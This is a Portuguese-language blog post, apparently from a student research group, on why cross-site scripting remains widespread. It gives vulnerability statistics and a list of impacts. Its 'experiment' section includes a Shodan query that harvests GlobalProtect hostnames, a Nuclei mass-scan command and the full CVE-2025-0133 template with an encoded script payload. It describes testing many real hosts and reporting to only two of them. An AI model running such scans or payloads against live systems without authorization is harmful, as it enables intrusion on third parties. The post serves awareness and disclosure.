


### **1. Introdução: “XSS? Ainda?”**

Em pleno 2025, ainda estamos falando de XSS? Sim, ainda estamos. Mesmo com o uso de frameworks modernos, WAFs inteligentes e uma infinidade de artigos explicando como mitigar essa ameaça, o Cross-Site Scripting (XSS) continua presente, sorrateiro, persistente e muitas vezes negligenciado.

O XSS é uma das primeiras vulnerabilidades abordadas em cursos introdutórios de segurança ofensiva e testes de invasão em aplicações web. Com um payload simples, instrutores demonstram como essa falha é trivial de ser explorada, evidenciando o perigo e a facilidade de sua exploração.

Mas, afinal, o que é o XSS? Segundo a [OWASP](https://owasp.org/www-community/attacks/xss/), ataques de Cross-Site Scripting são um tipo de injeção na qual scripts maliciosos são inseridos em sites vulneráveis. Esses ataques ocorrem quando um invasor utiliza uma aplicação web para enviar código malicioso, geralmente scripts executados no navegador, a outro usuário. As falhas que possibilitam esses ataques são bastante comuns e surgem sempre que uma aplicação web incorpora entradas do usuário na saída gerada sem realizar validação ou codificação apropriadas.

Ainda de acordo com a OWASP, o navegador da vítima não possui mecanismos para distinguir scripts legítimos de scripts maliciosos. Assim, ao receber e executar o código, confia que este foi originado de uma fonte segura. Com isso, o atacante pode acessar cookies, tokens de sessão e outras informações sensíveis armazenadas pelo navegador, além de reescrever o conteúdo da página ou redirecionar o usuário para sites maliciosos disfarçados como legítimos.



Exemplo simples de payload de XSS para executar mensagem.

---

### **2. CVE-Hunters vs XSS**

O grupo **CVE-Hunters** foi criado em novembro de 2024 como uma iniciativa conjunta entre alunos e professor, com um objetivo claro: identificar vulnerabilidades (CVEs) em projetos de código aberto. A proposta era proporcionar aos estudantes uma experiência prática na busca por falhas em ambientes reais, indo além de laboratórios controlados ou desafios do tipo Capture The Flag (CTF).

Desde então, o grupo vem analisando uma ampla gama de projetos, desde pequenos sistemas comunitários até aplicações amplamente utilizadas no setor público e educacional. Ao longo dessa trajetória, um padrão se destacou: a frequência com que vulnerabilidades do tipo **Cross-Site Scripting (XSS)** foram encontradas.

Essa recorrência levanta uma questão importante: será que os desenvolvedores deixaram de tratar o XSS com a seriedade necessária? Apesar de ser uma falha amplamente documentada e conhecida há anos, ela ainda aparece com frequência. Mesmo em organizações com processos de desenvolvimento maduros, vulnerabilidades XSS continuam surgindo devido à complexidade dos fluxos de entrada e saída, ao uso de bibliotecas legadas ou à falta de testes contextualizados.

Atualmente, o grupo contabiliza **135 vulnerabilidades reportadas**, sendo **53 delas já oficialmente registradas como CVEs**. Do total de vulnerabilidades descobertas, 104 **são do tipo XSS**, o que representa uma parcela significativa e preocupante.



Foram identificadas 62 ocorrências do tipo armazenado e 42 do tipo refletido, revelando uma distribuição relativamente equilibrada.


Essa estatística, por si só, reforça a ideia de que o XSS ainda é um problema real, muitas vezes negligenciado durante o desenvolvimento, e que continua merecendo atenção,  tanto da comunidade técnica quanto dos desenvolvedores responsáveis por aplicações em produção.

---

### **3. Experiência prática**

Você pode estar pensando agora: “OK, o grupo CVE-Hunters encontrou vários XSS em projetos de código aberto, mas quem me garante que empresas grandes também estão vulneráveis?”

Vamos fazer uma experiência rápida, com um doso XSS mais recente divulgado durante a escrita deste artigo: o [**CVE-2025-0133 – PAN-OS: Reflected Cross-Site Scripting (XSS) Vulnerability in GlobalProtect Gateway and Portal**.](https://security.paloaltonetworks.com/CVE-2025-0133) Um XSS refletido nos produtos GlobalProtect gateway e portal, recursos do PAN-OS da Palo Alto Networks, publicado no dia 14 de maio de 2025.

Com uma consulta simples no Shodan, podemos checar a quantidade estimada de uso desse produto no mundo. 


No entanto isso não significa que todos estão vulneráveis. Vamos ao experimento para este artigo.

Primeiro, extraímos alguns resultados do Shodan, uma pequena amostragem do montante total:

```bash
shodan search --fields hostnames 'http.title:"GlobalProtect Portal" port:443' | grep -v '^$' > globalprotect-hostnames.txt
```


Depois disso, podemos utilizar o **`Nuclei`** para testar essa vulnerabilidade e automatizar o teste:

```bash
nuclei -l globalprotect-hostnames.txt -t CVE-2025-0133.yaml
```


Template utilizado para o scan [CVE-2025-0133](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-0133.yaml).

```bash
id: CVE-2025-0133

info:
  name: PAN-OS - Reflected Cross-Site Scripting
  author: xbow,DhiyaneshDK
  severity: medium
  description: |
    A reflected cross-site scripting (XSS) vulnerability in the GlobalProtect™ gateway and portal features of Palo Alto Networks PAN-OS® software enables execution of malicious JavaScript in the context of an authenticated Captive Portal user's browser when they click on a specially crafted link.The primary risk is phishing attacks that can lead to credential theft—particularly if you enabled Clientless VPN.
  reference:
    - https://security.paloaltonetworks.com/CVE-2025-0133
    - https://hackerone.com/reports/3096384
  classification:
    epss-score: 0.00102
    epss-percentile: 0.29276
  metadata:
    verified: true
    max-request: 1
    shodan-query:
      - http.favicon.hash:"-631559155"
      - cpe:"cpe:2.3:o:paloaltonetworks:pan-os"
    fofa-query: icon_hash="-631559155"
    product: pan-os
    vendor: paloaltonetworks
  tags: hackerone,cve,cve2025,xss,panos,global-protect

http:
  - raw:
      - |
        GET /ssl-vpn/getconfig.esp?client-type=1&protocol-version=p1&app-version=3.0.1-10&clientos=Linux&os-version=linux-64&hmac-algo=sha1%2Cmd5&enc-algo=aes-128-cbc%2Caes-256-cbc&authcookie=12cea70227d3aafbf25082fac1b6f51d&portal=us-vpn-gw-N&user=%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E%3C%2Fsvg%3E&domain=%28empty_domain%29&computer=computer HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '<script>prompt("XSS")</script>'
          - 'authentication cookie'
        condition: and

      - type: status
        status:
          - 200
# digest: 490a0046304402202037be3477c0e16d7bb7cfb9874bf1cb6894a1d8035d64115db72607a539a54502203a1dac9b97514abef71fdb6a73d681f64f788f43605f2235f1fbfd26f6ddac2c:922c64590222798bb761d5b6d8e72950
```

Obtivemos um número significativo de hosts vulneráveis. Em seguida, buscamos identificar, entre esses resultados, algum host que possuísse um VDP público, para que pudéssemos notificá-lo sobre a vulnerabilidade. Essa etapa é um pouco complexa de ser realizada manualmente, por isso utilizamos o apoio de inteligência artificial para cruzar os domínios extraídos do `Shodan` com informações disponíveis na internet sobre empresas que possuem programas de bug bounty ou VDPs abertos.

Durante essa pesquisa, encontramos apenas dois domínios  com VDP público — um deles, uma grande empresa do setor privado; o outro, um órgão do setor governamental. Ambos são sediados nos Estados Unidos: um com VDP hospedado na BugCrowd e o outro com VDP privado, acessível via e-mail.

Reportamos ambas as vulnerabilidades para as empresas de forma responsável.


É importante destacar que a amostra testada representa apenas uma fração dos sistemas expostos. 

### **5. Mais números**

Se ainda não está convencido da quantidade de XSS que temos por ai, podemos fazer mais uma pesquisa simples no *GitHub Advisory Database*  onde temos um retorno de mais de **31.611 ocorrências relacionadas a XSS**.


Pesquisa de XSS no GitHub Advisory Database

Uma busca na base de dados de **CVE (Common Vulnerabilities and Exposures)** também revela um número expressivo de vulnerabilidades registradas relacionadas ao XSS, demonstrando sua recorrência em diferentes sistemas, aplicações e contextos ao longo dos anos.


Pesquisa XSS na base de dados do Mitre de CVE

Além disso, uma busca realizada na plataforma **HackerOne**, amplamente reconhecida no ecossistema de *Bug Bounty*, resulta um total de **2.225 relatórios públicos** envolvendo vulnerabilidades de Cross-Site Scripting. Esses dados reforçam não apenas a prevalência do XSS, mas também o interesse contínuo da comunidade de segurança em explorá-lo e reportá-lo, inclusive em ambientes com altos padrões de segurança.


Pesquisa de XSS na Plataforma de Bug Bounty Hacker One.

### **6. O que dá para fazer com um XSS além do alert(1)?**

O famoso alert(1) costuma ser o primeiro exemplo utilizado para demonstrar uma falha de XSS.  No entanto, os impactos reais dessa vulnerabilidade vão muito além de uma simples janela de alerta. A seguir, listamos algumas clássicas e muito conhecidas ações maliciosas que podem ser realizadas por um atacante ao explorar uma falha de Cross-Site Scripting:

- **Roubo de cookies** (caso o cookie não esteja protegido com a flag HttpOnly);
- **Sequestro de sessão**, assumindo a identidade da vítima em aplicações autenticadas;
- **Keylogging**, capturando tudo o que o usuário digita na página comprometida;
- **Redirecionamento malicioso** para páginas falsas, com o objetivo de aplicar golpes;
- **Execução de ações em nome do usuário**, como envio de mensagens, alteração de configurações ou exclusão de dados.
- **Execução remota de código (Remote Code Execution)**: embora raro e depende de contexto específico, pode ser possível obter acesso remoto ao sistema a partir de um XSS.

Esses exemplos demonstram que, mesmo sendo uma vulnerabilidade muitas vezes subestimada, o XSS pode ter consequências graves, especialmente quando explorado em aplicações com dados sensíveis ou com alto nível de privilégio do usuário afetado.

### **7. Conclusão**

O XSS não morreu, talvez só tenha sido ignorado diante de novas ameaças mais ‘glamourosas’. Mas sua presença silenciosa continua a oferecer uma superfície de ataque explorável, muitas vezes com impacto crítico.

Apesar de muitas vezes ser classificado como uma vulnerabilidade de severidade *média* ou até *baixa*, o **XSS não deve ser subestimado**. Seu impacto pode ser significativo, especialmente quando envolve o roubo de cookies, sequestro de sessão ou redirecionamento para páginas maliciosas. E o mais perigoso: **nem sempre as proteções tradicionais são suficientes para impedir que o usuário seja enganado e clique naquele phishing que está utilizando uma URL legítima com vulnerabilidade de XSS.**

Afinal, o XSS frequentemente depende de um simples clique, e nesse cenário, **o elo mais fraco costuma ser o próprio usuário**. Não importa o quão robusto seja seu framework ou quão bem configurado esteja seu WAF: se o atacante conseguir criar um link malicioso convincente, basta uma ação desatenta da vítima para que o ataque se concretize.

**Enquanto confiamos em frameworks e WAFs, o atacante confia no nosso descuido,e na curiosidade do usuário.**

